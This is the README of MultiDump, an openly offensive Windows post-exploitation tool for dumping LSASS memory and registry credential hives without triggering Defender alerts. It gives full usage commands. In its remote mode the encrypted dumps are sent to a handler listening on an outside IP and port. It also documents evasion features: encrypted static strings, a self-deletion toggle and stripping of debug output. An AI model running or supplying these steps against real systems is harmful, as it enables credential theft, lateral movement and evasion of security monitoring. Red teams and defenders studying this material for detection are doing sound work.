 <!--
category: malware
subcategory: credential-dumping
origin: Xre0uS
risk_level: high
possible_abuse: credential theft, lateral movement
hardening_tips: monitor for suspicious process injection, restrict access to LSASS
related: credential dumping, windows, mimikatz
opsec: high

tags: [malware, credential-dumping, windows, mimikatz, offensive]
-->

## MultiDump

MultiDump is a post-exploitation tool written in C for dumping and extracting LSASS memory discreetly, without triggering Defender alerts, with a handler written in Python.

![](multidump-defender.gif)

Blog post: https://xreous.io/posts/multidump

MultiDump supports LSASS dump via `ProcDump.exe` or `comsvc.dll`, it offers two modes: a local mode that encrypts and stores the dump file locally, and a remote mode that sends the dump to a handler for decryption and analysis.

## Usage

```powershell
    __  __       _ _   _ _____
   |  \/  |_   _| | |_(_)  __ \ _   _ _ __ ___  _ __
   | |\/| | | | | | __| | |  | | | | | '_ ` _ \| '_ \
   | |  | | |_| | | |_| | |__| | |_| | | | | | | |_) |
   |_|  |_|\__,_|_|\__|_|_____/ \__,_|_| |_| |_| .__/
                                               |_|

Usage:  MultiDump.exe [-p <ProcDumpPath>] [-l <LocalDumpPath> | -r <RemoteHandlerAddr>] [--procdump] [-v]

-p              Path to save procdump.exe, use full path. Default to temp directory
-l              Path to save encrypted dump file, use full path. Default to current directory
-r              Set ip:port to connect to a remote handler
--procdump      Writes procdump to disk and use it to dump LSASS
--nodump        Disable LSASS dumping
--reg           Dump SAM, SECURITY and SYSTEM hives
--delay         Increase interval between connections to for slower network speeds
-v              Enable verbose mode

MultiDump defaults in local mode using comsvcs.dll and saves the encrypted dump in the current directory.
Examples:
        MultiDump.exe -l C:\Users\Public\lsass.dmp -v
        MultiDump.exe --procdump -p C:\Tools\procdump.exe -r 192.168.1.100:5000
```

```bash
usage: MultiDumpHandler.py [-h] [-r REMOTE] [-l LOCAL] [--sam SAM] [--security SECURITY] [--system SYSTEM] [-k KEY] [--override-ip OVERRIDE_IP]

Handler for MultiDump

options:
  -h, --help            show this help message and exit
  -r REMOTE, --remote REMOTE
                        Port to receive remote dump file
  -l LOCAL, --local LOCAL
                        Local dump file, key needed to decrypt
  --sam SAM             Local SAM save, key needed to decrypt
  --security SECURITY   Local SECURITY save, key needed to decrypt
  --system SYSTEM       Local SYSTEM save, key needed to decrypt
  -k KEY, --key KEY     Key to decrypt local file
  --override-ip OVERRIDE_IP
                        Manually specify the IP address for key generation in remote mode, for proxied connection
```

As with all LSASS related tools, Administrator/SeDebugPrivilege privileges are required.

The handler depends on [Pypykatz](https://github.com/skelsec/pypykatz) to parse the LSASS dump, and [impacket](https://github.com/fortra/impacket) to parse the registry saves. They should be installed in your environment. If you see the error `All detection methods failed`, it's likely the Pypykatz version is outdated.

By default, MultiDump uses the `Comsvc.dll` method and saves the encrypted dump in the current directory.

```powershell
MultiDump.exe
...
[i] Local Mode Selected. Writing Encrypted Dump File to Disk...
[i] C:\Users\MalTest\Desktop\dciqjp.dat Written to Disk.
[i] Key: 91ea54633cd31cc23eb3089928e9cd5af396d35ee8f738d8bdf2180801ee0cb1bae8f0cc4cc3ea7e9ce0a74876efe87e2c053efa80ee1111c4c4e7c640c0e33e
```

```bash
./MultiDumpHandler.py -l dciqjp.dat -k 91ea54633cd31cc23eb3089928e9cd5af396d35ee8f738d8bdf2180801ee0cb1bae8f0cc4cc3ea7e9ce0a74876efe87e2c053efa80ee1111c4c4e7c640c0e33e
```

If `--procdump` is used, `ProcDump.exe` will be written to disk to dump LSASS.

In cmd, `--procdump` _must_ be used, or it will fail per [#5](https://github.com/Xre0uS/MultiDump/issues/5), recommend to always use powershell if possible.

In remote mode, MultiDump connects to the handler's listener.

```bash
./MultiDumpHandler.py -r 9001
[i] Listening on port 9001 for encrypted key...
```

```powershell
MultiDump.exe -r 10.0.0.1:9001
```

The key is encrypted with the handler's IP and port. When MultiDump connects through a proxy, the handler should use the `--override-ip` option to manually specify the IP address for key generation in remote mode, ensuring decryption works correctly by matching the decryption IP with the expected IP set in MultiDump `-r`.

An additional option to dump the `SAM`, `SECURITY` and `SYSTEM` hives are available with `--reg`, the decryption process is the same as LSASS dumps. This is more of a convenience feature to make post exploit information gathering easier.

### Building MultiDump

Open in Visual Studio, build in **Release** mode.

### Customising MultiDump

It is recommended to customise the binary before compiling, such as changing the static strings or the RC4 key used to encrypt them, to do so, another Visual Studio project `EncryptionHelper`, is included. Simply change the key or strings and the output of the compiled `EncryptionHelper.exe` can be pasted into `MultiDump.c` and `Common.h`.

Self deletion can be toggled by uncommenting the following line in `Common.h`:

```c
#define SELF_DELETION
```

To further evade string analysis, most of the output messages can be excluded from compiling by commenting the following line in `Debug.h`:

```c
//#define DEBUG
```

---

MultiDump might get detected on Windows 10 22H2 (19045) (sort of), and I have implemented a fix for it (sort of), the investigation and implementation deserves a blog post itself: https://xre0us.io/posts/saving-lsass-from-defender/

## Credits

- Some techniques used learnt from [MalDev Academy](https://maldevacademy.com), it is an awesome course, highly recommended
- Inspired by [proc_noprocdump](https://github.com/djackreuter/proc_noprocdump)
- Code to further process LSASS dump from [lsassy](https://github.com/Hackndo/lsassy)
- Testing and suggestions from [ballro](https://github.com/ballro)
- Testing and suggestions from [DisplayGFX](https://github.com/DisplayGFX), [nthdeg](https://github.com/nthdeg) and silentbee
